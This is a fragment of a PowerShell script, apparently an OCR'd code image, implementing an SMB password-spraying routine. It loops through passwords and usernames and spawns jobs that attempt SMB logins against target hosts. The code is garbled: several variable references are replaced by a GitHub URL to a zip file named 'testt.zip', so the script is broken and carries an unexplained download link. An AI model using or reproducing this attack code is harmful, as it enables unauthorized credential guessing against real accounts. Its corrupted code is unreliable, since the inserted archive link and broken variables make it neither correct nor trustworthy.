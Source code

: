         return $true
    } catch {
        return $false
    }
}

# Function to perform controlled password spray
function Invoke-SMBPasswordSpray {
    param(
        [array]$TargetHosts,
        [array]$UserList,
        [array]$PasswordList,
        [string]$Domain
    )
    
    $results = @()
    $attemptCount = 0
    
    foreach ($password in $PasswordList) {
        Write-Host "[*] Spraying password: $password" -ForegroundColor Yellow
        
        foreach ($user in $UserList) {
            $successHosts = @()
            
            # Limit concurrent threads
            $jobs = @()
            $batchSize = [Math]::Min($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip, $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip)
            
            for ($i = 0; $i -lt $batchSize; $i++) {
                $host = $TargetHosts[$i]
                if ($host) {
                    $job = Start-Job -ScriptBlock {
                        param($ComputerName, $Username, $Password, $Domain)
                        return Test-SMBAuth -ComputerName $ComputerName -Username $Username -Password $Password -Domain $Domain
                    } -ArgumentList $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip, $user, $password, $Domain
                    
                    $jobs += @{
                        Job = $job
                        Host = $host
                        User = $user
                        Password = $password
                    }
                }
            }
            
            # Wait for batch completion
            foreach ($jobInfo in $jobs) {
                $result = Receive-Job -Job $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip -Wait
                Remove-Job -Job $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip
                